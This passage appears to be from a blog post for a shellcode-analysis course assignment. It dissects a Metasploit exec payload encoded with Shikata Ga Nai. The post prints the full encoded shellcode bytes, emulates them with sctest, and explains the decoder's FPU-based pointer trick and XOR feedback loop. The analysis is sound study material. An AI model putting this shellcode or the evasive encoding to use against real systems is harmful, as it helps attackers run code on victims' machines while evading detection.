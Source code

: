 And cleaned up...

```
"\xd9\xe9\xba\x33\xd4\x7e\x78\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x0d\x31\x55\x1a\x83\xed\xfc\x03\x55\x16\xe2\xc6\xbe\x75\x20\xb1\x6d\xec\xb8\xec\xf2\x79\xdf\x86\xdb\x0a\x48\x56\x4c\xc2\xea\x3f\xe2\x95\x08\xed\x12\xb5\xce\x11\xe3\xd5\xaf\x65\xc3\x36\x55\xf1\x60\x66\xe5\x98\x15\x0b\x72\x3e\xda\xbc\x2f\x37\x3b\x8f\x50"
```


Running `sctest`:

```
root@mountain:~# echo -ne "\xd9\xe9\xba\x33\xd4\x7e\x78\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x0d\x31\x55\x1a\x83\xed\xfc\x03\x55\x16\xe2\xc6\xbe\x75\x20\xb1\x6d\xec\xb8\xec\xf2\x79\xdf\x86\xdb\x0a\x48\x56\x4c\xc2\xea\x3f\xe2\x95\x08\xed\x12\xb5\xce\x11\xe3\xd5\xaf\x65\xc3\x36\x55\xf1\x60\x66\xe5\x98\x15\x0b\x72\x3e\xda\xbc\x2f\x37\x3b\x8f\x50" | sctest -vvv -Ss 10000 -G sgn_exec.dot | tee sctest_sgn_exec.txt & dot sgn_exec.dot -Tpng > sgn_exec.png
```

Let's get right into the analysis. The files generated during my analysis for the Shikata Ga Nai decoder and exec payload can be found [here](https://github.com/fbcsec/slae-assignments/tree/master/5-msf-shellcode-analysis/sgn_encoded_exec). 

## Stepping through a Shikata Ga Nai decoder stub. 

Shikata_ga_nai's decoder is described as 'polymorphic'. It is generated dynamically with a variety of different methods for the different tasks required for decoding chosen at random. It is important to stress this, as the sample of shikata_ga_nai discussed here is only one of many different possible variations. This particular instance of SGN follows several simple steps for decoding. First it gets a pointer to the encoded payload. Then byte by byte it XORs the payload against a key. After each round it adds to the key the integer value of the decoded data.  This additive feedback loop ensures that you provide the decoder stub with both a valid key and a completely correct encoded payload. If any of it is incorrect, the rest of the payload will be garbage. 

```nasm
fldl2t            
mov edx,0x787ed433
fnstenv [esp-0xc] 
pop ebp           
```

I absolutely love this trick. First the shellcode puts a floating point constant onto the floating point unit (FPU) register stack. The dreaded FPU is a part of the CPU used for calculating floating point numbers. There are eight floating point registers and they behave like a stack, being pushed to and popped from. The first instruction, `fldl2t` pushes log2 10 onto the FPU stack. Don't worry, we're not actually going to be doing any math! 

The shellcode then loads the initial value to be used for decoding.

Back to the FPU, an `fnstenv` instruction is used. This saves the state of all the floating point registers to some memory, in this case 12 bytes above the top of the stack. This has the result of saving at the stack pointer, the FPU's instruction pointer. This points to the last FPU instruction executed, the `fldl2t` and the top of the decoder stub. It POPs this pointer into EBP. 

We can observe this using GDB. 
